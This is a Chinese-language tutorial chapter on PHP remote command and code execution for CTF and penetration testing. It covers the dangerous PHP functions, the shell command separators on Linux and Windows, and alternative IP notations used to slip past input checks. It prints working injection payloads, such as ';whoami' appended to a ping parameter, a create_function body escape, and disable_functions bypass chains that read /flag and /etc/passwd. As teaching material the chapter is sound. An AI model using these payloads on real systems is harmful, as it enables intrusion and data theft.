

# 1. RCE（远程命令/代码执行）深度解析

## 知识导航

RCE（Remote Code Execution）是安全测试中的"终局武器"——让目标服务器执行你控制的命令或代码。在 CTF 和渗透测试中，RCE 通常意味着你已经拿到了靶机的控制权。但 RCE 本身也分多种形态和利用条件，本章将从场景出发，逐层深入讲解各类 RCE 的原理、实战技巧和绕过策略。

每个知识点先讲它在什么场景下出现，再讲背后的原理，然后给出可直接上手的实战示例，最后标注新手最常踩的坑。

---

## 1.1 RCE 前置知识

### 1.1.1 何为 RCE？——从场景出发

**场景：**你发现一个网站的功能点是"查询服务器状态"或"Ping 某 IP"。输入 `127.0.0.1` 正常返回结果，但输入 `127.0.0.1; whoami` 后页面上出现了 `www-data`。恭喜，你触发了 RCE。

**原理：**RCE 全称 Remote Code/Command Execution（远程代码/命令执行）。它本质上是因为后端在处理用户输入时，将未经过滤或转义的数据直接传递给了系统命令执行函数或代码执行函数，导致用户可以控制服务器执行恶意操作。

**RCE 的两大分支：**

| 分支 | 英文 | 执行内容 | 代表场景 |
|------|------|----------|----------|
| 远程命令执行 | Remote Command Execution | 系统命令（`whoami`、`ls`、`cat`） | Ping 注入、Web 后门参数 |
| 远程代码执行 | Remote Code Execution | 编程语言代码（PHP/Java/Python 等） | `eval()` 参数、模板注入 |

**实战分层理解：**

- **命令执行层：**后端直接把你的输入拼接到 Shell 命令中。你输入 `id`，系统执行 `id`。
- **代码执行层：**后端把你的输入当成代码解析执行。你输入 `system("id")`，PHP 先解析这行代码，调用 `system()`，然后系统再执行 `id`。

**关键区分法则：**

> 传 `id` 能执行 → 命令执行场景
> 传 `system("id")` 或 `phpinfo()` 能执行 → 代码执行场景
> 代码执行里如果能调用 `system()`、`exec()`，就可以"降维打击"到命令执行

---

### 1.1.2 远程命令执行（Command Execution）

**场景：**后端代码中，用户输入被直接拼接到系统命令字符串中。

```php
# 不安全示例：用户输入 cmd 参数直接传给 system()
system($_POST['cmd']);
```

**原理：**程序调用了 PHP 或系统底层的命令执行函数。这些函数会启动一个 Shell 进程来运行你指定的命令字符串。如果输入可控，相当于你拥有了在服务器上运行任意命令的能力。

**实战示例：**

```bash
# 假设请求为 POST /shell.php
# Body: cmd=hostname

# 服务器实际执行的是：
hostname

# 页面返回服务器的机器名，例如：
web-srv-01
```

```bash
# Body: cmd=uname -a
uname -a

# 返回系统内核信息：
Linux web-srv-01 5.10.0-28-amd64 #1 SMP Debian 5.10.209-2 x86_64 GNU/Linux
```

**命令执行和代码执行的最直接区别：**

| 维度 | 命令执行 | 代码执行 |
|------|----------|----------|
| Payload 样子 | `whoami`、`cat /flag` | `system("whoami");`、`echo file_get_contents('/flag');` |
| 执行载体 | Shell（bash/sh/cmd） | 语言解释器（PHP/Node.js/Python） |
| 语法要求 | Shell 命令语法 | 语言语法 |
| 利用目标 | 直接操作系统 | 先操纵语言，再间接操作系统 |

---

### 1.1.3 远程代码执行（Code Execution）

**场景：**后端的 `eval()`、`assert()` 等函数将用户输入作为代码执行。

```php
# 不安全示例：用户输入 code 参数直接传给 eval()
eval($_REQUEST['code']);
```

**原理：**代码执行函数会将字符串参数作为语言代码来解析执行。例如 PHP 的 `eval()` 会把传入的字符串当作 PHP 代码语句执行。这意味着你可以在代码层面调用任意函数，包括命令执行函数。

**实战示例：**

```php
# 请求参数 code=echo phpversion();
eval("echo phpversion();");
# 输出：8.2.12

# 请求参数 code=system('hostname');
eval("system('hostname');");
# 输出：web-srv-01
```

**新手避坑 1：** 很多新手分不清命令执行和代码执行，直接把 `cat /flag` 传给 `eval()`，结果什么也不执行。记住：`eval()` 执行的是 PHP 代码，不是 Shell 命令。`cat /flag` 只是字符串字面量，不是合法的 PHP 语句。应写成 `system('cat /flag');`。

---

### 1.1.4 命令执行与代码执行的深度对比

| 对比维度 | 远程命令执行 | 远程代码执行 |
|----------|--------------|--------------|
| 常见入口 | `system()`、`exec()`、`shell_exec()` | `eval()`、`assert()`、`create_function()` |
| Payload 示例 | `id`、`whoami`、`ls -la` | `phpinfo();`、`echo 1+1;` |
| 是否需要语言语法 | 不需要（直接系统命令） | 需要（要符合语言语法规则） |
| 回显依赖 | 取决于命令执行函数是否输出 | 取决于代码中是否写 `echo`/`print` |
| 绕过特点 | 命令分隔符、通配符、重定向 | 语言特技（可变函数、字符串运算） |
| 执行结果输出 | 函数返回/输出 | 需要在代码中主动输出 |
| 同一条命令的写法 | `cat /etc/passwd` | `system("cat /etc/passwd");` |
| 禁用函数影响 | `system` 被禁用可能失效 | 可用其他函数代替，如 `file_get_contents()` |

---

### 1.1.5 一句话判断法

面对一个"疑似 RCE"的入口，可以用下面的逻辑快速判断：

```
输入 "id"
├── 页面输出 uid=... → 命令执行
├── 页面报错 → 可能是代码执行，试 "system('id');"
│   ├── 输出 uid=... → 代码执行
│   └── 报错或无反应 → 继续试 "phpinfo();"
└── 无任何反应 → 可能是无回显，确认后用外带/延时判断
```

---

## 1.2 PHP 命令执行函数详解

### 1.2.1 system()——有回显的"开关"

**场景：**最经典的命令执行函数。当你看到以下代码时，直接传命令即可：

```php
$command = $_GET['shell'];
system($command);
```

**原理：**`system()` 会执行外部程序，并将输出直接发送到响应流（stdout）。返回值是命令输出的最后一行。如果你只想要最后的行内容，可以利用这个返回值。

**实战示例：**

```php
# 假设 URL: /run.php?shell=id
system("id");
# 输出到页面：uid=33(www-data) gid=33(www-data) groups=33(www-data)

# 返回值捕获
$lastLine = system("pwd");
echo "\n最后一行是：" . $lastLine;
# pwd 输出到页面，最后一行赋值给 $lastLine
```

**新手避坑 2：** `system()` 把输出直接发给页面，但这不代表"一定有回显"。如果 PHP 配置开启了 `output_buffering` 且没刷新缓冲区，输出可能在页面完成才一次性发送，但最终你还是能看到结果。真正无回显的场景比这个更复杂，详见 1.5 节。

---

### 1.2.2 passthru()——二进制"通道"

**场景：**需要执行命令并获取原始二进制输出时（如图片处理、视频转换），`passthru()` 比 `system()` 更合适。

**原理：**`passthru()` 与 `system()` 类似，但它**不**对输出做任何处理，直接透传原始二进制数据到响应流。它也不返回命令输出到 PHP 变量中。

**实战示例：**

```php
# URL: /exec.php?cmd=cat+/etc/hostname
passthru("cat /etc/hostname");
# 输出：my-linux-box

# URL: /exec.php?cmd=xxd+/flag
passthru("xxd /flag");
# 以十六进制形式输出 flag 文件内容
```

**与 `system()` 的关系：**

```php
# system() 的回显——可能会在输出末尾追加换行等处理
system("echo hello");       # 输出 "hello"

# passthru() 更"原始"
passthru("echo hello");     # 输出 "hello"（无多余处理）
```

---

### 1.2.3 exec()——静默执行

**场景：**你只需要执行命令，但不想让输出"污染"页面，或者想在后端处理命令结果。

**原理：**`exec()` 执行外部命令，默认情况下**不输出**任何内容到页面上。它返回命令输出的最后一行。如果传入了第二个数组参数，将获取完整的输出行列表。

**实战示例：**

```php
# URL: /cmd.php?action=exec&arg=whoami
$output = [];
$lastLine = exec("whoami", $output, $exitCode);
echo "最后一行: " . $lastLine;  # 需要手动 echo
print_r($output);               # 完整输出 ['www-data']
echo "退出码: " . $exitCode;    # 0 表示成功
```

**数组参数的实战作用：**

```php
# URL: /cmd.php?action=exec&arg=ls+-la+/var/www
$lines = [];
exec("ls -la /var/www", $lines);
foreach ($lines as $index => $line) {
    echo "第" . ($index + 1) . "行: " . htmlspecialchars($line) . "\n";
}
```

**新手避坑 3：** 新手最容易犯的错误是只写 `exec("whoami");` 然后页面空白，就以为命令没执行。实际上 `exec()` 执行了，只是结果被吞掉了。必须用 `echo` 或读取第二个参数数组才能看到输出。

---

### 1.2.4 shell_exec()——字符串捕获

**场景：**想要获取命令的完整输出字符串，用于进一步处理或显示。

**原理：**`shell_exec()` 执行命令并通过 Shell 管道捕获全部输出，以字符串形式返回。如果没有输出，返回 `null`。它不会自动输出到页面。

**实战示例：**

```php
# URL: /run.php?action=hostnamectl
$result = shell_exec("hostnamectl");
echo "<pre>" . $result . "</pre>";
# 使用 <pre> 标签保留格式，完整显示 hostnamectl 输出
```

**与 `exec()` 的关键区别：**

```php
# exec()——只取最后一行
$last = exec("cat /etc/os-release");
echo $last;   # 只显示最后一行

# shell_exec()——取全部
$all = shell_exec("cat /etc/os-release");
echo $all;    # 显示整个文件内容
```

---

### 1.2.5 反引号运算符——简洁的语法糖

**场景：**你希望代码看起来"不那么明显"，或者想要一个极简的命令执行写法。

**原理：**反引号 `` ` `` 是 PHP 中的运算符，效果等价于 `shell_exec()`。反引号内的内容会被当作 Shell 命令执行，结果以字符串形式返回。

**实战示例：**

```php
# URL: /cmd.php?action=date
$dateInfo = `date '+%Y-%m-%d %H:%M:%S'`;
echo "服务器时间是：" . $dateInfo;

# 直接嵌入字符串
echo "当前目录内容: " . `ls -la`;

# 建议配合 var_dump 调试
var_dump(`hostname 2>&1`);
```

**反引号的嵌套陷阱：**

```php
# 错误写法——反引号内的反引号要转义
$result = `echo \`hostname\``;

# 正确写法——避免嵌套，用 shell_exec()
$result = shell_exec("echo " . shell_exec("hostname"));
```

---

### 1.2.6 popen()——进程管道

**场景：**你想像读文件一样"流式"读取命令输出的每一行，或者向命令写入输入。

**原理：**`popen()` 打开一个指向进程的管道。它返回一个文件指针，你可以用 `fread()`、`fgets()`、`fwrite()` 等文件函数与之交互。

**实战示例：**

```php
# URL: /pipe.php?cmd=ps+aux
$handle = popen("ps aux", "r");
if ($handle) {
    while (!feof($handle)) {
        $line = fgets($handle);
        echo htmlspecialchars($line) . "<br>";
    }
    pclose($handle);
}

# 写模式示例——向命令写入数据
$handle = popen("grep error", "w");
fwrite($handle, "this is an error log\n");
fwrite($handle, "this is normal\n");
pclose($handle);
# 输出：this is an error log
```

**`popen()` 与 `exec()` 的选择：**

| 需求 | 推荐函数 |
|------|----------|
| 只需要执行，不关心输出 | `exec()` |
| 需要完整输出字符串 | `shell_exec()` / 反引号 |
| 需要逐行处理大量输出 | `popen()` + `fgets()` |
| 需要双向交互 | `proc_open()` |

---

### 1.2.7 proc_open()——终极进程控制

**场景：**需要完全控制进程的标准输入（stdin）、标准输出（stdout）和标准错误（stderr），甚至设置环境变量和工作目录。

**原理：**`proc_open()` 是最底层的进程创建函数。它的参数包括：命令、文件描述符规范、管道引用数组。它返回一个进程资源，可以用 `proc_get_status()`、`proc_close()` 等管理。

**实战示例：**

```php
# URL: /proc.php?cmd=bash
$descriptors = [
    0 => ["pipe", "r"],  # stdin——我们向进程写入
    1 => ["pipe", "w"],  # stdout——进程向我们输出
    2 => ["pipe", "w"],  # stderr——错误输出管道
];

$process = proc_open("bash", $descriptors, $pipes);

if (is_resource($process)) {
    # 向 bash 写入多条命令
    fwrite($pipes[0], "echo hello from exploit\n");
    fwrite($pipes[0], "whoami\n");
    fwrite($pipes[0], "exit\n");
    fclose($pipes[0]);

    # 读取全部输出
    $output = stream_get_contents($pipes[1]);
    $errors = stream_get_contents($pipes[2]);
    fclose($pipes[1]);
    fclose($pipes[2]);

    proc_close($process);

    echo "Output: " . $output;
    echo "Errors: " . $errors;
}
```

**新手避坑 4：** `proc_open()` 的参数极其复杂，描述符数组的索引 0、1、2 容易搞混。建议记住：0=进（输入）、1=出（输出）、2=错（错误）。管道 `["pipe", "r"]` 中的 `"r"` 或 `"w"` 指的是**你的 PHP 脚本**的视角，不是进程的视角。

---

### 1.2.8 命令执行函数速查总表

| 函数 | 回显特点 | 返回值 | 执行层 | 常用场景 | 典型长度 |
|------|----------|--------|--------|----------|----------|
| `system()` | 直接回显 | 最后一行字符串 | Shell | 快速验证 RCE | 短 |
| `passthru()` | 直接回显（原始） | 无 | Shell | 二进制输出 | 短 |
| `exec()` | 不回显（需 echo 或数组） | 最后一行字符串 | Shell | 后端处理结果 | 中 |
| `shell_exec()` | 不回显（需 echo） | 完整字符串 | Shell | 获取全部输出 | 中 |
| 反引号 `` ` `` | 不回显（需 echo） | 完整字符串 | Shell | 简洁写法 | 短 |
| `popen()` | 需读取管道 | 文件指针 | Shell | 流式读取 | 长 |
| `proc_open()` | 需处理管道 | 进程资源 | Shell | 全交互控制 | 极长 |

**判断有回显还是无回显：**

```php
# 方式一：看函数本身
system("hostname");       # 有回显
exec("hostname");         # 无回显
shell_exec("hostname");   # 无回显

# 方式二：看后端代码
$output = exec("hostname");   # 捕获但不输出
echo exec("hostname");        # 加 echo 才有回显
```

---

### 1.2.9 disable_functions 与替代策略

**场景：**`system()` 被 `disable_functions` 禁用了，但你仍有代码执行入口。

**原理：**PHP 通过 `disable_functions` 配置项可以禁用危险函数。但禁用一个不等于禁用全部，同类函数可以互相替代。

**实战替代链：**

```php
# 假设 system() 被禁用
# 替代方案 1——passthru()
passthru("cat /flag");

# 替代方案 2——exec()
exec("cat /flag", $lines);
print_r($lines);

# 替代方案 3——shell_exec()
echo shell_exec("cat /flag");

# 替代方案 4——反引号
echo `cat /flag`;

# 替代方案 5——popen()
$fp = popen("cat /flag", "r");
echo fread($fp, 4096);

# 替代方案 6——file_get_contents()（不启动 Shell，直接读文件）
echo file_get_contents("/flag");
```

**新手避坑 5：** `disable_functions` 只禁用函数，不禁用语言结构和运算符。反引号不是函数而是运算符，所以 `echo \`cat /flag\`;` 可能绕过 `disable_functions`。同样，`eval()` 是语言结构，也不是函数，不能通过变量函数调用但也不受函数禁用影响。

---

## 1.3 PHP 代码执行函数详解

### 1.3.1 eval()——最危险的"瑞士军刀"

**场景：**`eval()` 是 PHP 中最危险的代码执行入口。见到以下代码直接进入"可利用"状态：

```php
eval($_GET['payload']);
```

**原理：**`eval()` 将传入的字符串作为 PHP 代码执行。注意：
- `eval()` 是**语言结构**（language construct），不是普通函数
- 传入的代码不需要 `<?php` 开始标签
- 传入的代码需要用分号 `;` 结尾
- 在代码执行场景中，不能直接写系统命令

**实战示例：**

```php
# URL: /eval.php?payload=echo+phpversion().'|'.PHP_OS;
eval("echo phpversion() . '|' . PHP_OS;");
# 输出：8.2.12|Linux

# URL: /eval.php?payload=system('id');
eval("system('id');");
# 输出：uid=33(www-data) gid=33(www-data) groups=33(www-data)

# 多语句执行
eval('$exploit="pwd";system($exploit);');
# 输出：/var/www/html
```

**新手避坑 6：** `eval()` 不是函数，是语言结构。这意味着：

```php
# 不能通过变量函数调用 eval
$func = 'eval';
$func('phpinfo();');     # 报错：Call to undefined function eval()

# 不能用 call_user_func 调用 eval
call_user_func('eval', 'phpinfo();');  # 报错

# 不能在函数名上使用可变函数语法
$result = $user_input();  # 如果 $user_input = 'eval'，也会报错
```

**`eval()` 的多行和复杂代码：**

```php
# URL: /eval.php?payload=$a=[1,2,3];foreach($a+as+$v){echo+$v.'<br>';}
eval('
    $data = ["flag", "secret", "key"];
    foreach ($data as $item) {
        echo "Found: " . $item . "<br>";
    }
');
```

---

### 1.3.2 assert()——版本敏感的动态求值

**场景：**CTF 老题中常见的代码执行入口。`assert()` 在 PHP 8.0 之前可以将字符串参数作为代码执行。

**原理：**`assert()` 用于断言条件是否为真。在 PHP 7.x 及更早版本中，如果给 `assert()` 传入字符串，PHP 会将其作为 PHP 代码求值。该行为在 PHP 7.2 中被标记为弃用，PHP 8.0 中完全移除。

**实战示例：**

```php
# PHP 7.x 环境（断言启用）
# URL: /assert.php?test=system('cat+/etc/passwd');
assert("system('cat /etc/passwd');");
```

**版本兼容性速查：**

| PHP 版本 | 字符串代码执行 | 说明 |
|----------|---------------|------|
| 5.x | 支持 | 完整支持字符串 eval |
| 7.0 - 7.1 | 支持 | 默认支持，未标记弃用 |
| 7.2 - 7.4 | 支持但弃用 | 会在日志中输出弃用通知 |
| 8.0+ | **不支持**| 字符串不再被执行，只做布尔判断 |

**新手避坑 7：** 遇到 `assert()` 题目先确认 PHP 版本。PHP 8.0 + 环境下 `assert()` 不再执行字符串代码。另外即使版本符合，还要检查 `zend.assertions = 1` 和 `assert.active = 1` 是否配置为开启，否则 `assert()` 可能静默跳过。

---

### 1.3.3 create_function()——已死的代码注入

**场景：**通过 `create_function()` 动态创建匿名函数时，如果参数可控，可以注入恶意代码。此函数在 PHP 8.0 中已被彻底移除。

**原理：**`create_function()` 接受两个字符串参数：参数列表和函数体。它会创建一个匿名函数。如果函数体参数可控，可以通过精心构造的字符串提前闭合函数体，插入恶意代码。

**实战示例：**

```php
# PHP 7.x 环境
# URL: /create.php?code=}system('hostname');//
create_function('$x', $_GET['code']);

# 后端实际拼出的代码如下：
function lambda_func($x) { }system('hostname');// }
```

**payload 分解分析：**

```php
# 输入： }system('hostname');//
# 各部分作用：
# }         → 闭合原本的函数体
# system    → 执行系统命令
# ('hostname') → 命令参数
# ;         → 结束语句
# //        → 注释掉后面剩余的代码
```

**利用前提检查清单：**

1. PHP 版本 < 8.0（最好 < 7.2 因为 7.2 起已弃用）
2. 参数列表或函数体字符串可控
3. 有办法触发创建的匿名函数执行
4. `create_function` 未被禁用

---

### 1.3.4 preg_replace() /e 修饰符——正则中的"定时炸弹"

**场景：**老版本 PHP 中，`preg_replace()` 的正则模式如果包含 `/e` 修饰符，替换内容会被当作 PHP 代码执行。

**原理：**`/e` 是 PHP 为 `preg_replace()` 设计的"评估"修饰符。正常情况下，替换内容只是一个字符串；加了 `/e` 后，PHP 会在替换之前将替换内容作为代码执行。

**实战示例：**

```php
# PHP 5.x - 7.0（7.0 起 /e 被弃用）
# URL: /replace.php?code=system('uname+-a')
preg_replace('/test/e', $_GET['code'], 'test');

# 执行流程：
# 1. 正则 /test/e 匹配字符串 'test'
# 2. 因为带了 /e，$_GET['code'] 的内容被作为 PHP 代码执行
# 3. system('uname -a') 被执行
```

**替代方案（PHP 7.0+）：**

```php
# PHP 7.0+ 中 preg_replace_callback 替代 /e
# 但前提是回调函数可控，否则不构成漏洞
$result = preg_replace_callback(
    '/test/',
    function($matches) use ($_GET) {
        // 这里不会自动执行代码
        return $_GET['code'] ?? '';
    },
    'test'
);
```

**新手避坑 8：** `/e` 修饰符只存在于旧版 PHP，如果你拿到一个新版本环境，直接不用考虑 `/e` 利用。另外 `/e` 不是代码执行函数——它是 `preg_replace()` 的正则修饰符，很多人误以为 `preg_replace()` 本身是危险函数，其实它只是被 `e` 带坏了。

---

### 1.3.5 call_user_func()——函数名可控即危险

**场景：**函数名和参数都来自用户输入时，`call_user_func()` 可以变成任意函数调用。

**原理：**`call_user_func()` 用于动态调用函数。第一个参数是要调用的函数名（字符串或闭包），后续参数是传递给该函数的参数。如果函数名和参数都可控，你可以调用 `system()`、`exec()` 等危险函数。

**实战示例：**

```php
# URL: /call.php?func=system&arg=cat+/etc/hostname
call_user_func($_GET['func'], $_GET['arg']);
# 相当于执行：system("cat /etc/hostname");
```

**多参数场景：**

```php
# URL: /call.php?func=system&arg[]=cat /etc/hostname&arg[]=dummy
call_user_func_array($_GET['func'], $_GET['arg']);
# 第一个参数是命令，第二个参数虽然传给 system 但会被忽略
```

**函数名过滤绕过：**

```php
# 如果 system 被过滤，尝试：
call_user_func('passthru', 'cat /flag');
call_user_func('shell_exec', 'cat /flag');  # 需 echo
call_user_func('exec', 'cat /flag');        # 需处理数组
```

---

### 1.3.6 call_user_func_array()——数组参数版

**场景：**与 `call_user_func()` 类似，但参数通过数组传递，适合需要多个参数的函数。

**原理：**第二个参数必须是数组，数组的每个元素按顺序对应目标函数的参数列表。

**实战示例：**

```php
# URL: /call.php?func=system&args[]=cat /etc/hostname
call_user_func_array($_GET['func'], $_GET['args']);

# 多参数示例——调用 exec 并获取输出
# URL: /call.php?func=exec&args[]=id&args[]=out
call_user_func_array('exec', ['id', &$output]);
print_r($output);
```

---

### 1.3.7 其他代码执行/动态调用函数

| 函数/结构 | 类型 | 说明 | 注意事项 |
|-----------|------|------|----------|
| `eval()` | 语言结构 | 执行任意 PHP 代码 | 不能通过变量函数调用 |
| `assert()` | 函数 | PHP < 8 时可执行代码 | 版本敏感，需检查配置 |
| `create_function()` | 函数 | PHP < 8 的动态函数创建 | 函数体注入 |
| `preg_replace()` | 函数 | `/e` 修饰符执行替换内容 | PHP < 7.0 |
| `call_user_func()` | 函数 | 动态调用函数 | 函数名+参数可控 |
| `call_user_func_array()` | 函数 | 数组参数动态调用 | 参数必须为数组 |
| `array_map()` | 函数 | 对数组每个元素应用回调 | 回调函数名可控时危险 |
| `array_filter()` | 函数 | 过滤数组元素 | 回调函数名可控时危险 |
| `array_walk()` | 函数 | 数组遍历回调 | 回调函数名可控时危险 |
| `register_shutdown_function()` | 函数 | 注册关闭时执行的回调 | 需触发脚本结束 |
| `register_tick_function()` | 函数 | 注册 tick 回调 | 需开启 declare(ticks) |
| `array_diff_uassoc()` | 函数 | 自定义比较函数 | 回调函数名可控 |

---

### 1.3.8 代码执行函数速查对比表

| 函数 | 执行内容 | 版本要求 | 回显 | 过滤难点 |
|------|----------|----------|------|----------|
| `eval()` | PHP 代码 | 全版本（无限制） | 看代码内部 | 语言结构，不能直接函数过滤 |
| `assert()` | PHP 代码 | **PHP < 8.0**| 看代码内部 | 版本兼容判断 |
| `create_function()` | PHP 代码 | **PHP < 8.0**| 需触发调用 | 闭合函数体技巧 |
| `preg_replace /e` | PHP 代码 | **PHP < 7.0**| 看代码内部 | `/e` 修饰符识别 |
| `call_user_func()` | 动态函数 | 全版本 | 看调用的函数 | 函数名参数双重可控 |
| `call_user_func_array()` | 动态函数 | 全版本 | 看调用的函数 | 数组参数构造 |

---

## 1.4 Ping 命令注入与命令分隔符

### 1.4.1 场景复现

**场景：**网站提供了一个"Ping 检测"功能，让你输入 IP 地址检测网络连通性。后端代码大致如下：

```php
# 不安全示例：IP 输入直接拼接到 ping 命令中
$ip = $_GET['target_ip'];
system("ping -c 1 " . $ip);
```

**正常使用：**

```bash
# 请求：/ping.php?target_ip=127.0.0.1
# 后端执行：ping -c 1 127.0.0.1
# 正常返回 ping 结果
```

**恶意利用：**

```bash
# 请求：/ping.php?target_ip=127.0.0.1;whoami
# 后端执行：ping -c 1 127.0.0.1;whoami
# 先执行 ping，再执行 whoami
```

**原理：**Shell 命令语言中有多种方式可以在一条"命令字符串"中执行多条命令。这些机制被统称为"命令分隔符"或"命令链接符号"。当用户输入被拼接到命令字符串中时，你可以用这些符号注入额外的命令。

---

### 1.4.2 Linux 命令分隔符详解

#### 1.4.2.1 分号 `;`——无条件顺序执行

**场景：**需要确保两条命令都执行，不关心成败。

**原理：**`;` 是最简单的分隔符。它只是把两条命令串起来——命令 A 执行完，不管成功还是失败，接着执行命令 B。

```bash
# 前后都执行，互不影响
# 输入：
127.0.0.1;cat /etc/hostname

# 实际执行：
ping -c 1 127.0.0.1;cat /etc/hostname
```

#### 1.4.2.2 逻辑与 `&&`——成功才继续

**场景：**想要确认前面命令成功后，再执行恶意命令。

**原理：**`&&` 要求左侧命令退出码为 0（成功）才执行右侧命令。正因为有"前置条件"，某些场景下 `&&` 比 `;` 更不容易触发日志告警。

```bash
# 需要 ping 成功后才会执行 id
127.0.0.1&&id

# 如果 ping 本身成功，id 被执行
# 如果 ping 失败（如目标不存在），id 不会执行
```

#### 1.4.2.3 管道 `|`——输出传递

**场景：**需要把前面命令的输出作为后面命令的输入。

**原理：**`|` 将左侧命令的 stdout 连接到右侧命令的 stdin。利用管道注入时，即使原命令的 stdout 被丢弃，新命令的 stdout 也可能显示结果。

```bash
# 常见利用：
127.0.0.1|id

# 更隐蔽的用法——管道 + 过滤
127.0.0.1|grep flag /etc/passwd
```

#### 1.4.2.4 逻辑或 `||`——失败才替补

**场景：**当前面命令失败时才执行你的命令。

**原理：**`||` 左侧命令退出码非 0（失败）时执行右侧命令。这是一个容易误用的分隔符——如果前面命令成功了，你的恶意代码不会执行。

```bash
# 错误用法（ping 成功，id 不执行）：
127.0.0.1||id

# 正确用法（让前面命令先失败）：
notexist||whoami

# 或者利用不存在的 IP：
999.999.999.999||cat /flag
```

#### 1.4.2.5 后台执行 `&`——并行运行

**场景：**让前一条命令不要阻塞，立即执行后面的命令。

**原理：**`&` 将左侧命令放入后台执行，不等待它结束就继续执行右侧命令。这在某些限时执行场景中有用。

```bash
# 输入：
127.0.0.1&whoami

# 执行效果：
# 1. ping 被放到后台
# 2. whoami 立即执行
# 输出可能先显示 whoami 结果，然后才是 ping 输出
```

#### 1.4.2.6 换行符 `%0a`——新行即新命令

**场景：**URL 编码场景中，用 `%0a` 表示换行，在一些实现中可以作为命令分隔。

**原理：**Shell 中换行也是命令分隔符。在 URL 参数中，你不能直接敲回车，所以用 `%0a`（URL 编码的换行符）表示。

```bash
# 输入：
127.0.0.1%0acat /flag

# 实际执行：
ping -c 1 127.0.0.1
cat /flag
```

#### 1.4.2.7 反引号 `` ` `` 与 `$()`——命令替换

**场景：**需要把命令执行结果嵌入到原命令的参数中。

**原理：**命令替换会先执行内侧的命令，然后将输出文本替换到外侧命令的参数位置。结果不一定会直接显示在页面上，但副作用（如执行了你的命令）已经产生。

```bash
# 反引号版本：
127.0.0.1`whoami`
# ping 会收到 "127.0.0.1root" 这样的参数（假设 whoami 输出 root）

# $() 版本：
127.0.0.1$(whoami)
# 同样，结果嵌入到 ping 的参数中
```

**新手避坑 9：** 反引号和 `$()` 是命令替换，不是直接命令执行。它们的重点在于"先执行里面，再把结果拼回去"。所以结果不一定会直接显示在页面上，而是出现在原命令的参数位置。如果想直接看到输出，用 `;`、`|` 或 `&&` 更适合。

---

### 1.4.3 Windows 命令分隔符详解

**场景：**目标服务器运行 Windows + PHP/IIS 环境时，分隔符和 Linux 不同。

**原理：**Windows CMD 的命令分隔符集与 Linux Bash 不完全相同。例如 `;` 在 Windows CMD 中不是有效的命令分隔符。

#### 1.4.3.1 单个 `&`——Windows 通用分隔符

```cmd
# Windows 中 & 表示顺序执行多条命令
127.0.0.1&whoami
# 执行：ping -n 1 127.0.0.1 & whoami
```

#### 1.4.3.2 `&&`——条件成功执行

```cmd
127.0.0.1&&whoami
# 只有 ping 成功才执行 whoami
```

#### 1.4.3.3 `||`——条件失败执行

```cmd
notexist||whoami
# only_if_failed
```

#### 1.4.3.4 `|`——管道

```cmd
127.0.0.1|whoami
# 管道输出（与 Linux 不同的是 Windows 的 | 可能在回显上有差异）
```

#### 1.4.3.5 `%0a`——换行

```cmd
127.0.0.1%0awhoami
# 换行作为分隔符
```

---

### 1.4.4 命令分隔符完整对照表

| 分隔符 | Linux Bash | Windows CMD | 说明 |
|--------|-----------|-------------|------|
| `;` | 有效 |  无效 | Linux 专属无条件顺序执行 |
| `&` | 后台执行 | **顺序执行**| **行为不同！** Linux 是后台，Windows 是顺序 |
| `&&` | 成功时才执行 | 成功时才执行 | 两边行为一致 |
| `||` | 失败时才执行 | 失败时才执行 | 两边行为一致 |
| `|` | 管道传递输出 | 管道传递输出 | Windows 可能触发错误弹窗 |
| `%0a` | 换行分隔 | 换行分隔 | URL 编码形式 |
| `` ` `` | 命令替换 | 命令替换 | Windows 中也可能可用 |
| `$()` | 命令替换 |  (PowerShell) | Windows CMD 不支持，PowerShell 支持 |

**新手避坑 10：** `&` 在 Linux 和 Windows 中的行为完全不同。在 Linux 中 `127.0.0.1&whoami` 是把 ping 放后台然后执行 whoami；在 Windows 中 `127.0.0.1&whoami` 是顺序执行两命令。做跨平台题目时一定要先判断目标系统。

**快速判断目标系统的命令：**

```bash
# 用系统特定命令做"指纹识别"
# Linux 可用的命令
|uname -a

# Windows 可用的命令
|ver

# 延时判断
# Linux:
;sleep 5

# Windows:
&ping -n 5 127.0.0.1
```

---

### 1.4.5 IP 写法绕过（7 种变形 + 扩展）

**场景：**题目在 ping 注入前做了输入校验，要求输入"必须像 IP 地址"或过滤了 `127.0.0.1`、`localhost` 等关键词。

**原理：**同样的 IP 地址在计算机系统中可以有多种表示形式。系统网络库在解析这些形式时，会将其统一转换为标准 IP。利用这些变形可以绕过简单的输入校验。

#### 1.4.5.1 IPv4 短写

```bash
# 将 127.0.0.1 简写为 127.1
# 在一些系统中，省略的部分自动补 0
ping 127.1
# 解析为 ping 127.0.0.1
```

#### 1.4.5.2 十进制整数写法

```bash
# 将 127.0.0.1 转换为一个 32 位整数
# 公式：127*256^3 + 0*256^2 + 0*256^1 + 1 = 2130706433
ping 2130706433
# 解析为 ping 127.0.0.1
```

**整数转换公式：**

```text
127.0.0.1 → 127×16777216 + 0×65536 + 0×256 + 1 = 2130706433
192.168.1.1 → 192×16777216 + 168×65536 + 1×256 + 1 = 3232235777
```

#### 1.4.5.3 零的写法

```bash
# 单独 0 在某些系统中被解析为 0.0.0.0
# 而 0.0.0.0 在特定情况下指向本机
ping 0
# 某些场景等于 ping 0.0.0.0
```

#### 1.4.5.4 十六进制写法

```bash
# 将 IP 分段转换为十六进制
# 127.0.0.1 → 0x7f.0x0.0x0.0x1
# 或者整体转换 IP → 0x7f000001
ping 0x7f000001
# 解析为 ping 127.0.0.1
